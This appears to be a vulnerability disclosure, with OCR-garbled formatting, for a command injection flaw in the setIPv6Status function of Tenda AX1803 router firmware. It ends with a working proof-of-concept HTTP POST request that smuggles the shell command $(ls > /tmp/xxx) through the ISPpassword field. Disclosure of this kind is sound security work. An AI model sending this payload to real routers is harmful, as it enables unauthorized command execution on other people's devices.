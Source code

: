 

#***\* Tenda ax1803 has a command injection vulnerability\****

##* * * \ * overview\****

• ****\* type \ ****: command injection vulnerability

• * * * \ * supplier \ * * * *: Tengda（ https://tenda.com.cn ）

• ****\* product ****: WiFi router ax1803

• ***\*Firmware download address：\**** https://www.tenda.com.cn/download/detail-3225.html

• ***\*Firmware download address：\****https://down.tenda.com.cn/uploadfile/AX1803/US_AX1803v2.1br_v1.0.0.1_2890_CN_ZGYD01.zip

Tendaax1803 router adopts WiFi 6 (802.11ax) technology, and the dual band concurrency rate is up to 1775mbps (2.4ghz:574mbps, 5ghz:1201mbps). Compared with the ac1200 router of the previous generation WiFi 5 standard, the wireless rate is increased by 50% and the transmission distance is longer; Equipped with 1.5GHz high-performance quad core processor, the network load capacity is comprehensively improved, data forwarding is faster, and long-term operation is more stable; Using ofdma+mu-mimo technology, more devices can access the Internet at the same time, the transmission efficiency is significantly improved, the delay is significantly reduced, and the online games and ultra clear videos for multiple people are more fluent. It is the first choice for building a multimedia home network! Command Execution Vulnerability in setipv6status



##* * * \ * description\****



###***\* I. product information:\****



Overview of the latest version of Tenda ax1803 router simulation:

![image-20220624183557535](img/image-20220624183557535.png)

 

 

 

\### ***\*2. Vulnerability details\****



Tenda ax1803 is found to have a command injection vulnerability in the setipv6status function

![image-20220624133917486](img/image-20220624133917486.png)



When we set connect type = ' PPPoE ', we will get a command injection vulnerability after logging in.

 ![image](img/image.png)

 

 ![image-20220624180331870](img/image-20220624180331870.png)

 ![image-20220624180308018](img/image-20220624180308018.png)



\## ***\*3. Recurring vulnerabilities and POCS\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware through QEMU system or other methods (real machine)

Attack with the following POC attacks

Note to replace the password field in the cookie

```
POST /goform/setIPv6Status HTTP/1.1
Host: 192.168.2.1
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://192.168.2.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

IPv6En=1&conType=PPPoE&ISPusername=addasdas&ISPpassword=$(ls > /tmp/xxx)&prefixDelegate=0&wanAddr=%2F&gateWay=&lanType=undefined&wanPreDNS=&wanAltDNS=&lanPrefix=undefined%2F64
```

 